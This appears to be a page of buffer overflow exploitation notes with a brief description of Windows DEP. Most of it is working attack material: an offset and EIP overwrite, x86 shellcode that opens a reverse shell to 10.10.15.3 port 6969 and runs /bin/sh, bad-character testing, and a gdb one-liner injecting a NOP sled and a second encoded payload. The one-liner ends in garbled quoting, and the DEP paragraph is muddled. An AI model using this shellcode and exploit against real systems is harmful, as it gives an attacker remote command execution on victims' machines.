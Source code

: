 
## Data Execution Prevention (DEP)

`DEP` is a security feature available in Windows XP, and later with Service Pack 2 (SP2) and above, programs are monitored during execution to ensure that they access memory areas cleanly. DEP terminates the program if a program attempts to call or access the program code in an unauthorized manner.



```
EIP: 0x66666666
786
2060 to overflow
\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd
\x80\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68\x0a\x0a\x0f
\x03\x68\x02\x00\x1b\x39\x89\xe1\xb0\x66\x50\x51\x53\xb3
\x03\x89\xe1\xcd\x80\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f
\x62\x69\x89\xe3\x52\x53\x89\xe1\xb0\x0b\xcd\x80

identify bad chars:
buffer = "\x55" * (2064 - 256 - 4)
CHARS=...
EIP = "\x66" * 4
```
`run $(python -c 'print("\x55" * (2064 - 100 - 95 - 4) + "\x90" * 100 + ""\xd9\xe8\xd9\x74\x24\xf4\xbf\xd5\xc2\xbf\x35\x5b\x31\xc9\xb1\x12\x83\xeb\xfc\x31\x7b\x13\x03\xae\xd1\x5d\xc0\x61\x0d\x56\xc8\xd2\xf2\xca\x65\xd6\x7d\x0d\xc9\xb0\xb0\x4e\xb9\x65\xfb\x70\x73\x15\xb2\xf7\x72\x7d\x4f\x02\x8a\x7e\x27\x10\x94\x9b\x8e\x9d\x75\x2b\x96\xcd\x24\x18\xe4\xed\x4f\x7f\xc7\x72\x1d\x17\xb6\x5d\xd1\x8f\x2e\x8d\x3a\x2d\xc6\x58\xa7\xe3\x4b\xd2\xc9\xb3\x67\x29\x89" + "\x66" * 4)')'*)'`